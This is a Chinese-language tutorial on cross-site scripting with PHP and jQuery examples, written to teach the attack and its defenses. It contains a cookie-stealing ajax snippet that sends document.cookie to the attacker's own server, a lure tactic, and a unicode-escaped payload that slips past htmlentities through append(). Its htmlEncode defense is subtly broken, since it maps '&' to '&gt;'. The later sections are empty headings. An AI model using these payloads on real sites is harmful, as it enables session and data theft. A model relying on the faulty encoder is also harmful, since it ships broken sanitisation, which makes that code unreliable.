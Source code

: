 
## 概念

XSS是最常见的一种web攻击方式，它指的是恶意用户把代码注入到其他用户要访问的网站中。

站在前端的角度，可以理解为将js代码注入。

```php
<?php
    $username="鹏仔";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo $username;?>
        </div>
    </body>
</html>
```

如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。代码如下：

```php
<?php
    $username="<script>alert('侯医生');</script>";
?>
```

如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

```javascript
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

## 防范

最简单的解决方法，就是将输出数据进行转义。

比如，上述的XSS攻击的本质，就是因为浏览器遇到了`<script>`标签，然后才会执行其中的脚本。

因此，我们只需要对`<script>`标签进行转义，则浏览器就不会执行其中的恶意脚本。

```php
<?php
    $username="<script>alert('鹏仔');</script>";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <!--我们将输出的后端变量，转义之后再输出，则可以避免被注入代码-->
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
    </body>
</html>
```

虽然，成功防止了恶意脚本的执行，但是标签还是会显示出来，影响用户体验。

> 在 Node.js 中，可以用 htmlEncode() 。
```js
function htmlEncode(str) {
    var s = "";
    if (str.length == 0) return "";  
    s = str.replace(/&/g, "&gt;");
    s = s.replace(/</g, "&lt;");
    s = s.replace(/>/g, "&gt;");
    s = s.replace(/ /g, "&nbsp;");
    s = s.replace(/\'/g, "&#39;");
    s = s.replace(/\"/g, "&quot;");
    s = s.replace(/\n/g, "<br>");
    return s;
}
```

## 升级版XSS

### apend的利用

通常情况下，直接给innerHTML添加一段js脚本，是无法执行的。

但是，jQuery中的`append()`方法却可以实现。这是因为，`append()`会把要添加的内容先用`eval()`执行一遍。

而且，由于`append()`底层是通过innerHTML实现的，而innerHTML会把要添加的内容中的unicode码转化为字符实体。二者综合就能产生奇妙的效果了：

```php
<?php
    $username="\u003cscript\u003ealert('ok');";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>版权所有：<span id="username_info"></span></div>
        <script>
            $('#username_info').append("<?php echo htmlentities($username); ?>");
        </script>
    </body>
</html>
```

虽然，我们对输出的数据进行了转义，但是转义函数却无法识别经过伪装的`<script>`标签，最终js脚本还是会执行。

### image标签的利用




## 升级版防范策略












